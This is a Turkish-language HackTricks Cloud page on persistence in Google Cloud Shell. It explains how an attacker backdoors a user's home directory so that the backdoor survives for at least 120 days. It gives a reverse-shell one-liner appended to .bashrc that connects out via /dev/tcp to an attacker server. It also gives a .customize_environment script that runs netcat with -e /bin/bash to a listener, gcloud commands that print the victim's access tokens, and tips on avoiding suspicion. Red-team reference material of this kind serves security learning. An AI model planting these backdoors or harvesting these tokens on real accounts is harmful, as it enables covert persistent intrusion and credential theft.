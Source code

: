 # GCP - Cloud Shell Kalıcılığı

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hacklemeyi öğrenin!</summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek istiyorsanız** veya **HackTricks'i PDF olarak indirmek istiyorsanız** [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuzu
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)'da **takip edin**.
* **Hacking püf noktalarınızı paylaşarak PR göndererek** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)'a katkıda bulunun
*
*
*
* github depoları.

</details>

## Cloud Shell

Daha fazla bilgi için kontrol edin:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Kalıcı Arka Kapı

[**Google Cloud Shell**](https://cloud.google.com/shell/), tarayıcınızdan doğrudan bulut kaynaklarınıza komut satırı erişimi sağlar ve herhangi bir ek maliyet olmadan.

Google'ın Cloud Shell'ine **web konsolundan** veya **`gcloud cloud-shell ssh`** komutunu çalıştırarak erişebilirsiniz.

Bu konsolun saldırganlar için bazı ilginç yetenekleri vardır:

1. **Google Cloud'a erişimi olan herhangi bir Google kullanıcısı**, tam yetkilendirilmiş bir Cloud Shell örneğine erişebilir (Hizmet Hesapları, org'un Sahipleri bile olabilir).
2. Söz konusu örnek, **en az 120 gün boyunca ana dizinini koruyacaktır** eğer hiçbir etkinlik olmazsa.
3. Bu örneğin etkinliğini izlemek için bir organizasyonun **yetenekleri yoktur**.

Bu temelde bir saldırgan, kullanıcının ana dizinine bir arka kapı yerleştirebilir ve kullanıcı en az 120 günde bir GC Shell'e bağlandığı sürece arka kapı hayatta kalacak ve saldırgan her çalıştığında bir kabuk alacaktır sadece şunu yaparak:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Ev dizininde varsa **`.customize_environment`** adında başka bir dosya bulunmaktadır ve bu dosya, kullanıcının **bulut kabuğuna** eriştiği her seferde **çalıştırılacaktır** (önceki teknikte olduğu gibi). Kalıcılığı sürdürmek için önceki arka kapıyı veya aşağıdakine benzer birini ekleyin, kullanıcı "sık sık" bulut kabuğunu kullandığı sürece:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**Önemli:** Bir kimlik doğrulama gerektiren işlem **ilk kez gerçekleştirildiğinde**, kullanıcının tarayıcısında bir yetkilendirme penceresi belirir. Bu pencerenin kabul edilmesi gerekmektedir ki komut çalışabilsin. Beklenmeyen bir pencere belirirse, şüphe uyandırabilir ve kullanılan kalıcılık yöntemini tehlikeye atabilir.
{% endhint %}

Bu, bulut kabuğundan (`cloud shell`) (saldırgan olarak) `gcloud projects list` komutunu çalıştırdıktan sonra tarayıcının kullanıcı oturumunda görünen yetkilendirme penceresidir:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ancak, kullanıcı bulut kabuğunu aktif olarak kullandıysa, yetkilendirme penceresi belirmeyecek ve kullanıcının **token'larını toplayabilirsiniz**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH bağlantısının nasıl kurulduğu

Temel olarak, bu 3 API çağrısı kullanılır:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (yerel olarak oluşturduğunuz genel anahtarını eklemenizi sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (örneği başlatmanızı sağlar)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud Shell'in IP'sini size söyler)

Ancak daha fazla bilgiyi [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) adresinde bulabilirsiniz.

## Referanslar

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
